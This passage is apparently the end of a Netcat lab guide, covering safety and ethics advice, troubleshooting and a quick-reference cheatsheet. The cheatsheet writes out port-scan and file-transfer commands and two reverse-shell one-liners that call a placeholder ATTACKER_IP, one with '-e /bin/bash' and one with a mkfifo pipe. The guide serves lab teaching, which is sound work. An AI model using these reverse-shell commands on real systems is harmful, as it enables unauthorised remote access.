 ## Safety / Ethics
- Obtain **explicit permission** before interacting with any systems you do not own.  
- Use isolated lab environments (VirtualBox/VMware with internal networks, intentionally vulnerable VMs like Metasploitable).  
- Document actions and keep backups of any valuable data.  
- Some Netcat builds **do not** support `-e`; behavior varies. When in doubt, test `nc -h` or use `mkfifo` or `ncat`.

---

## Troubleshooting & Notes
- If `nc` reports `address already in use` — check for other listeners on that port: `ss -ltnp | grep 4444`.  
- If file transfer appears corrupted, verify file sizes and `sha256sum`.  
- If listener doesn't receive anything, confirm firewall rules, VM network mode, and host-only adapter settings.  
- Use `tcpdump -i <iface> port 4444` or Wireshark to inspect traffic in the lab.  
- To close a listening `nc` session gracefully, try `Ctrl+C` on the listener or use `-N` on the client side where available.

---

## Quick Reference / Cheatsheet
```bash
# Port scan
nc -z -v TARGET 1-1000

# Start listener (verbose)
nc -lvp 4444

# Connect to listener
nc TARGET_IP 4444

# Send file (sender)
nc TARGET_IP 5555 < file.txt

# Receive file (listener)
nc -lvp 5555 > received.txt

# Reverse shell (if -e supported)
nc ATTACKER_IP 4444 -e /bin/bash

# Reverse shell workaround (mkfifo)
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
```

---

## End notes
- Replace placeholder IPs, ports, and filenames before running.  
- Keep this document in your lab notes and update with observed behavior for your environment.
